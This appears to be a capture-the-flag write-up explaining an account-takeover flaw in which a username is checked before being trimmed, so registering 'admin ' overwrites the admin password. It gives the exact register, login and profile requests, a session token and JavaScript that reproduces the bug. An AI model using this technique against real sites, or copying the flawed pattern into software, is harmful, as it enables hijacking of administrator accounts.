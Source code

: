 ```javascript
```

During the registration process, the system first checks if the username is `"admin"`. If the username is not `"admin"`, it trims the `username` parameter using `username.trim()` and saves it in the user object.

For example, if the username is `"admin "` (with a space at the end), there is no username in the `users` object called `"admin "`. The `trim()` function will remove the space and save it as `"admin"` instead of `"admin "`. As a result, it will overwrite the existing `"admin"` user's password with the new password.

```json
POST /register

{"username":"admin ","password":"1234qwer!@Kk"}

POST /login 

{"username":"admin","password":"1234qwer!@Kk"}

POST /profile

{"session":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzM3NzU3Nzk5LCJleHAiOjE3Mzc3NjEzOTl9.vr3C_OdRgnzTob5EDyPzeqYTs_7a0NWy0EYqZ3LL1EA"}
```

<br />

**Debugging code:**

```javascript
const users = {};
users["admin"] = { password: "Sup3rS3cre7P@55W0rd!" };
console.log("users: ",users);
console.log("users.username: ",users.username);
console.log("users.password: ",users.password);
console.log("users.admin.password: ",users.admin.password);

let username = "admin ", password="testpass"


if(users[username]){
  console.log("Admin True: ",users["admin"]);
}else{
  console.log("Admin False: ",users["admin"]);
  const user = users[username.trim()] = {}
  user.password = password;

}


console.log("users2: ",users);
console.log("users2 test: ",users["admin"]);
console.log("users2 test pass: ",users["admin"].password);
```
